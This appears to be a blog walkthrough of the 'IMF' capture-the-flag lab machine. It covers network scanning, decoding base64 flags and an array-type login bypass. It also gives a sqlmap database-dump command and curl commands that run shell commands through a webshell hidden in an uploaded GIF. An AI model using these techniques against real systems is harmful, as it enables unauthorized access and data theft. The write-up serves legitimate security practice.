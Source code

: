 ```yaml
---
layout: post
title: imf
---
```


#IMF

##Finding machine on the network:

###Nmap
nmap -sn 192.168.1.0/24

Scan for hosts on my local network (192.168.1.1) which gave me a machine named "imf"

Now to run nmap on the machine itself:

nmap -Pn -oA imf-nmap-results -p 0-65525 192.168.1.21

Looks like port 80 is open.

After clicking through the pages on the site and viewing their sources I found this: 

<!-- flag1{YWxsdGhlZmlsZXM=} -->

The first flag, having a = at the end looks base64 encoded.

echo YWxsdGhlZmlsZXM= | base64 -d

returns: allthefiles

Something I noticed on the contact page was some random weird named js files:

<script src="js/ZmxhZzJ7YVcxbVl.js"></script>
<script src="js/XUnRhVzVwYzNS.js"></script>
<script src="js/eVlYUnZjZz09fQ==.min.js"></script>

Those all might combine into a base64 string, lets check it out

echo ZmxhZzJ7YVcxbVlXUnRhVzVwYzNSeVlYUnZjZz09fQ== | base64 -D

which  returns: flag2{aW1mYWRtaW5pc3RyYXRvcg==}

after running: echo aW1mYWRtaW5pc3RyYXRvcg== | base64 -D

I get:

imfadministrator

I tried browsing to: http://192.168.1.21/imfadministrator

Loads up a login page, upon viewing the page source I find:

<!-- I couldn't get the SQL working, so I hard-coded the password. It's still mad secure through. - Roger -->


I remembered seeing emails on the contact page, went page and sure enough roger is a user, rmichaels is his email.

Trying the user it seems the user is valid.

After some googling, looks like there is a potential authentication type conversion that might get us around authentication.  Looking at a post changing the type of the data that is received server side could bypass authentication.  Intercepting the HTTP post with burp and changing pass to pass[], this ends up sending an array down to the server instead of a string, improper handling of the input must be how we can get past it.  Once the post is forwarded another flag: flag3{Y29udGludWVUT2Ntcw==} which decodes to: continueTOcms


sqlmap --url http://192.168.1.21/imfadministrator/cms.php?pagename=home --threads 5 --level 5 --cookie="PHPSESSID=phpsessionid" --dbms=MYSQL --dump

Important to remember the last two parameters, I missed these originally and totally didn't get some output for moving forward from the command line.

Another flag: flag4{dXBsb2Fkcjk0Mi5waHA=} which decodes to: uploadr942.php

flag5{YWdlbnRzZXJ2aWNlcw==} which decodes to: agentservices

Running ps -A through the webshell created to get flag5 I'm able to see all the processes running on the remote machine.  One item that loks interesting is knockd, usually this would indicate that a port knocking sequence exists to open a service up to the public.

Running: netstat -vatn shows a list of the processes listening on TCP, 7788 and 22 look interesting 

Trying to knock the default ports (7000 8000 9000)
for x in 7000 8000 9000; do nmap -T4 -p $x 192.168.1.20;done;

No luck though when trying to hit the interesting ports.  

Trying to hit port 7788:

curl http://192.168.1.20/imfadministrator/uploads/c59ca80d5d76.gif?c=nc localhost 7788

I get a little shell app. Given that we are investigating "agentservice" I do a find on agent:

curl http://192.168.1.20/imfadministrator/uploads/c59ca80d5d76.gif?c=find%20/%20-name%20%22*agent%22


